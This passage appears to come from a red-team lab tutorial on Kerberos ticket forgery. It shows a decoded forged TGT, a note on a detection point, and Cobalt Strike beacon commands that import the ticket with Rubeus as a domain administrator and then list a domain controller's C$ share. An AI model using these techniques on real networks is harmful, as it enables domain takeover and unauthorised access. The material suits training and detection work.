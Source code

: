 ```powershell
      RequestorSID         : S-1-5-21-3926355307-1661546229-813047887-500
    ServerChecksum         :
      Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
      Signature            : 91FA516DDD54E76EF88EDC06 (VALID)
    KDCChecksum            :
      Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
      Signature            : CFA8C9B8AF6A49175AFE0E1A (VALID)
```

> You'll notice that some fields, such as the FullName, is still that of the original TGT, which may be a potential point of detection.

```powershell
beacon> make_token CONTOSO\Administrator FakePass
[+] Impersonated CONTOSO\Administrator (netonly)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIF5[...snip...]5DT00=

[*] Action: Import Ticket
[+] Ticket successfully imported!

beacon> run klist

Current LogonId is 0:0x1d14ae6

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 3/4/2025 12:30:31 (local)
	End Time:   3/4/2025 19:56:26 (local)
	Renew Time: 3/11/2025 9:56:26 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/03/2025 13:38:06   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/05/2025 01:31:46   DumpStack.log.tmp
 1gb      fil     03/05/2025 01:31:46   pagefile.sys
```